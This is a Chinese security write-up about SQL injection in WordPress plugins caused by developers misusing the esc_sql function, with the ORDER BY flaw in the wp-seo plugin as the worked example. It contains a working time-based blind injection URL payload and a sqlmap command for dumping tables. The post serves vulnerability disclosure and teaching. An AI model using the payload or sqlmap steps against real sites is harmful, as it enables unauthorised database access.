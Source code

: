 # 分析WordPress中esc_sql函数引起的注入危害

0x00 背景
=====

这篇文章说的不是esc_sql函数自身有什么逻辑上缺陷或者不足，而是说下关于二次开发者错误的使用此函数引起的注入漏洞。

在wordpress手册中关于esc_sql的解释，在以前的版本中，官方并没有说出这个函数有任何问题：

![enter image description here](http://drops.javaweb.org/uploads/images/91990e0e5800a612bc9366c6d51ba0a2fb94fd53.jpg)

在近期的wordpress手册中说出了这个函数如果错误使用会造成注入漏洞：

![enter image description here](http://drops.javaweb.org/uploads/images/3d24eaa29f19c6f5b0b27c80961df37c28259945.jpg)

0x01 分析
=====

我们再看下esc_sql的实现：

```
function esc_sql( $data ) {
    global $wpdb;
    return $wpdb->_escape( $data );
}
function _escape( $data ) {
    if ( is_array( $data ) ) {
        foreach ( $data as $k => $v ) {
            if ( is_array($v) )
                $data[$k] = $this->_escape( $v );
            else
                $data[$k] = $this->_real_escape( $v );
            }
        } else {
    $data = $this->_real_escape( $data );
    }
    return $data;
}
function _real_escape( $string ) {
    if ( $this->dbh ) {
        if ( $this->use_mysqli ) {
            return mysqli_real_escape_string( $this->dbh, $string );
        } else {
    return mysql_real_escape_string( $string, $this->dbh );
    }
}
$class = get_class( $this );
if ( function_exists( '__' ) ) {
    _doing_it_wrong( $class, sprintf( __( '%s must set a database connection for use with escaping.' ), $class ), E_USER_NOTICE );
} else {
    _doing_it_wrong( $class, sprintf( '%s must set a database connection for use with escaping.', $class ), E_USER_NOTICE );
}
    return addslashes( $string );
}

```

通过对比上面两个手册和代码我们可以清晰的得出以下几个结论：

*   1.  99%的情况下你可以使用$wpdb->prepare()函数来做数据库操作（有那些是哪不能的1%呢？order by、like···· ）
*   1.  esc_sql是addslashes()函数的数组应用，但是esc_sql转义数组的时候只转义数组值。
*   1.  esc_sql并没有对输入数据自动加引号保护

由于老版本手册的说明不严谨问题，在很多二次开发者使用esc_sql函数的时候出现了注入漏洞。

wp-seo插件注入漏洞

在文件admin/class-bulk-editor-list-table.php中：

```
protected function parse_item_query( $subquery, $all_states, $post_type_clause ) {

    // Order By block
    $orderby = ! empty( $_GET['orderby'] ) ? esc_sql( sanitize_text_field( $_GET['orderby'] ) ) : 'post_title';
    $order   = 'ASC';

    if ( ! empty( $_GET['order'] ) ) {
        $order = esc_sql( strtoupper( sanitize_text_field( $_GET['order'] ) ) );
    }

    // Get all needed results
    $query = "
    SELECT ID, post_title, post_type, post_status, post_modified, post_date
    FROM {$subquery}
    WHERE post_status IN ({$all_states}) $post_type_clause
    ORDER BY {$orderby} {$order}
    LIMIT %d,%d
    ";

    return $query;
}

```

其中很明显的漏洞出现了，然后就是构造poc：

```
http://192.168.9.102/wordpress/wp-admin/admin.php?page=wpseo_bulk-editor&type=title&orderby=post_date%2c(select%20*%20from%20(select(sleep(10)))a)&order=asc

```

如何使用sqlmap在order by后面延时注入，可以请参考：http://drops.wooyun.org/tips/5254自写，也可以抓包：

```
python sqlmap.py -r 2.txt --technique=B --dbms=MySQL -D wordpress --tables
GET /wordpress/wp-admin/admin.php?page=wpseo_bulk-editor&type=title&orderby=pos$
Host: 192.168.9.102
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=$
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like$
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8
Cookie: wordpress_1d5e8f89471a6349f1caf2e6b8aa4232=admin%7C1426827482%7CjKzM166$...

```

出现这样漏洞的插件还有：

```
WooCommerce 2.3 – 2.3.5
Pods 1.10 <= 2.5.1.1
AffiliateWP < 1.5.7
WP All Import < 4.1.2
Gravity Forms < 1.9.4

```

0x02 总结：
=====

从上面的分析和出现的已知漏洞不难看出，此函数滥用的插件应该不在少数。
